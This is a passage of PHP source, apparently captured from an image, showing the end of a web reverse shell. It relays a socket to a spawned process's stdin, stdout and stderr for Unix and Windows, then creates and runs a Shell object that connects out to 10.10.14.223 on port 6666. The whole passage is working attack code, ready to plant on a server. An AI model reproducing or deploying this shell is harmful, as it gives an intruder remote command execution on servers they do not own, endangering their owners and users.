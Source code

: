 ```php
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.223', 6666);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```
